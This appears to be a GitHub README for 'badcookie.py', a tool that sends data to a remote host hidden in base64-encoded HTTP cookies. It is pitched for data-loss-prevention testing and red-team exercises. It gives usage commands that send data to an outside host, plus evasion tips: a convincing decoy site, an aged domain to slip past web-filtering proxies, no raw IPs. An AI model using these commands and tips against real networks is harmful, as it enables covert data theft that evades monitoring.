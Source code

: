 # Requirements
Python 2.7

### Libraries
* Requests

# Description
Bad cookie exfiltrates data via base64 encoded HTTP cookies.

# Some use cases
* The script can be used for testing the effectiveness of data loss prevention systems.
* Network security monitoring systems.
* Red and Blue team exercises e.g. see if the blue team can detect data exfiltraion.
* Penetration testing activities

#Things to keep in mind
* The script transmits data via http not https
* Base64 encoded data can be easily decoded
* Be mindful the cookie size 

#Usage
`badcookie.py <destination_host> <exfiltrated_data>`

`Example(1): badcookie.py 10.0.0.2 "very important data"`
`Example(2): badcookie.py www.secretsite.com "very important data"`

`Use quotes if you plan to transmit data with whitespace`


#Setting up the data exfiltration process

* To make the network traffic look convincing setup a site with a proper domain. It can be a news, blog or any other site. So when you exfiltrate data the network traffic will look like normal web traffic going to a legitimate site. (atleast this is what we are trying to accomplish)
* Fill the site with some real looking content
* If you are testing systems where there is a web filtering proxy involved, try and use domain which is  more than a year old as web filtering proxies block new domains. In either case using an aged domain name will be beneficial.
* Avoid sending data using IP addresses.
* Enable  logging of http cookies in apache ( you can use any server you like). The sample config file in this repository “000-default.conf” in the  “apache_conf” folder can be used to enable cookie logging. Place config file in /etc/apache2/sites-enabled/ and restart Apache.  You should now see a file called “cookies.log” in /var/log/apache2.
* Execute the badcookie script.
* After executing the script you should see the following log entry in cookies.log. The log shows the transmitted base64 cookie.

`10.0.0.2 - - [13/Jun/2015:18:48:17 -0500] "GET / HTTP/1.1" 200 3256 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; MDDCJS; :11.0) like Gecko" "dGVzdGluZw=="`

* You can now decode the base64 encoded data.

* Please note that the above process is just a suggestion, you can setup the exfiltration process anyway you like.
